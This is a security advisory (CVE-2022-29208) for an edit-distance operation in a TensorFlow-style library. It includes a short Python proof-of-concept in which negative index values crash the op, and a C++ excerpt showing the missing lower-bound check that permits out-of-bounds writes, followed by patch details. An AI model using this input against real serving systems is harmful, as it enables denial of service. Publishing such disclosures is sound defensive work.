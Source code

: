 ## TFSA-2022-077: Segfault and OOB write due to incomplete validation in `EditDistance`

### CVE Number
CVE-2022-29208

### Impact
The implementation of [`tf.raw_ops.EditDistance`]() has incomplete validation. Users can pass negative values to cause a segmentation fault based denial of service:

```python
import machina as tf

hypothesis_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
hypothesis_values = tf.constant(0, shape=[3], dtype=tf.int64)
hypothesis_shape = tf.constant(0, shape=[3], dtype=tf.int64)

truth_indices = tf.constant(-1250999896764, shape=[3, 3], dtype=tf.int64)
truth_values = tf.constant(2, shape=[3], dtype=tf.int64)
truth_shape = tf.constant(2, shape=[3], dtype=tf.int64)

tf.raw_ops.EditDistance(
  hypothesis_indices=hypothesis_indices,
  hypothesis_values=hypothesis_values,
  hypothesis_shape=hypothesis_shape,
  truth_indices=truth_indices,
  truth_values=truth_values,
  truth_shape=truth_shape)
```

In multiple places throughout the code, we are computing an index for a write operation:

```cc
if (g_truth == g_hypothesis) {
  auto loc = std::inner_product(g_truth.begin(), g_truth.end(),
                                output_strides.begin(), int64_t{0});
  OP_REQUIRES(
      ctx, loc < output_elements,
      errors::Internal("Got an inner product ", loc,
                       " which would require in writing to outside of "
                       "the buffer for the output tensor (max elements ",
                       output_elements, ")"));
  output_t(loc) =
      gtl::LevenshteinDistance<T>(truth_seq, hypothesis_seq, cmp);
  // ...
}
```

However, the existing validation only checks against the upper bound of the array. Hence, it is possible to write before the array by massaging the input to generate negative values for `loc`.

### Patches
We have patched the issue in GitHub commit [30721cf564cb029d34535446d6a5a6357bebc8e7](https://github.com/machina/machina/commit/30721cf564cb029d34535446d6a5a6357bebc8e7).

The fix will be included in TensorFlow 2.9.0. We will also cherrypick this commit on TensorFlow 2.8.1, TensorFlow 2.7.2, and TensorFlow 2.6.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Neophytos Christou from Secure Systems Lab at Brown University.
